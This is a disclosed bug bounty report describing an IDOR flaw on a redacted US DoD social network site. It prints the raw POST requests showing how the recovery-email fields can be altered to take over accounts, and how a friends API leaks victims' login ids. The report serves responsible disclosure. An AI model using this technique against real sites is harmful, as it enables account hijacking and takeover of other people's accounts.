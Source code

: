 # Full Account Take-Over of ████████ Members via IDOR

## Report Details
- **Report ID**: 847452
- **URL**: https://hackerone.com/reports/847452
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-11T16:43:50.478Z
- **Disclosed**: 2020-05-14T18:08:23.515Z

## Reporter
- **Username**: r00tpgp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Summary
https://███████ is a Social Network Site belonging to US DoD. Membership is open to anyone, I have found a method to fully take-over any members' account by exploiting an IDOR bug in the `██████████` end-point. By changing the following values in the `POST` request to the affected end-point:

`userName`
`originalEmail`
`Email`
`RecoveryEmail`

I am able to add Recovery Email address of my choice, thus, enabling me to send a password reset link to my attacker controlled email address. I have uploaded a video PoC to demo my finding. Note that the following test accounts were used:

###Attacker
login: ████████

###Victim
login: ███████

I added `████` email into the victim account. Note that this only works on victims that have no recovery email address defined or recovery email that are not yet verified. This technique will NOT work on victims' that already have a confirmed recovery email address.

Also note, that I am using multi-containers plugin for Firefox, therefore, each tab represents separate browser session. Finally, note that in my PoC video, I had to insert the victim recovery email link `████████/self?guid=█████████` into the attackers' session because a valid session is required to validate the email. The session does not necessary have to belong to the victims' session to validate.

The IDOR bug can be obtained by intercepting the 2-FA Authentication switch:

███


## Vulnerable End-Point

Here is the vulnerable POST request when captured, the cookies and `__RequestVerificationToken` must be valid for this attack to work, I have ==highlighted== the vulnerable IDOR parameters:

POST /self HTTP/1.1
Host: █████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://███/self
Content-Type: application/x-www-form-urlencoded
Content-Length: 739
Connection: close
Cookie: ███████-Http-Session=███; _ga=█████; _gid=███; AWSALB=█████; AWSALBCORS=████; ASP.NET_SessionId=██████████; BIGipServer~Sync_Only~passport_pool=█████; akaalb_albcustom=█████████████def~id=██████████; AWSALB=███; AWSALBCORS=██████; googtrans=/en/en; googtrans=/en/en; UserName=███████████; CAMS_SID_MYCAMSCLUSTER_SYSTEM=MyCamsCluster-MyCamsServer1-system-███; _gat_███Tracker=1; __RequestVerificationToken_Lw__=█████
Upgrade-Insecure-Requests: 1

__RequestVerificationToken=█████████&==userName=████&originalEmail=████████%40gmail.com&oldPassword=&EmailSent=False&RecoveryEmailSent=true&RecoveryEmailVerified=true&SecurityImagePath=&Translate=en&COIGroupID=&Username=█████████&Email=██████████%40gmail.com&ConfirmEmail=&RecoveryEmail=██████████&ConfirmRecoveryEmail=&NewPassword=&ConfirmPassword=&TwoFactorAuthenticationEnabled=false&Password=&Password=&Password=&Password=&Password===

## Impact

An attacker can add his email address into the recovery field of any █████████ member that has not yet defined or verified a Recovery Email address. He will then be able to force a password reset link to be sent to his email address and change the victims' password and login into victims' account. Attacker now has full control of victims' account.

Also, victim login id is easily retrievable from this end point. By running the `RequesteeId` using any valid user session, attacker is  able to retrieve the `ProfileUrl` containing the victims' login id.

##Request

POST /api.ashx/v2/users/████/friends.json HTTP/1.1
Host: █████████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization-Code: █████████
Rest-Authorization-Code: █████████
X-Requested-With: XMLHttpRequest
Content-Length: 35
Origin: https://████
Connection: close
Referer: https://████/members/███/
Cookie: _ga=███████; _gid=██████████; AWSALB=█████████; AWSALBCORS=█████; █████████-Http-Session=█████████; googtrans=/en/en; UserName=█████████,█████; CAMS_SID_MYCAMSCLUSTER_SYSTEM=MyCamsCluster-MyCamsServer1-system-████; akaalb_albcommunity=██████████; AuthorizationCookie=███; BIGipServer~Sync_Only~community_pool=██████████

==RequesteeId=███████==&RequestMessage=+

##Reply:


{
"Friendship": {
"CreatedDate": "2020-04-11T08:22:53.247",
"FriendshipState": "Pending",
"LastModifiedDate": "2020-04-11T08:22:53.247",
"RequestMessage": " ",
"RequestorId": ██████,
=="RequesteeId": █████,==
"User": {
"AvatarUrl": "https://████████/cfs-file/__key/system/images/anonymous.gif",
"DisplayName": "█████",
=="ProfileUrl": "https://████/members/███████",==
"Username": "██████████",
"CurrentStatus": null,
"Id": █████████
},
"Id": ███
},
"Info": [],
"Warnings": [],
"Errors": []
}


Therefore, attacker just needs to feed the login id into the vulnerable end-point and follow the steps outlined in the PoC video to take over thousands of ██████████ user accounts!

## Attachments
No attachments
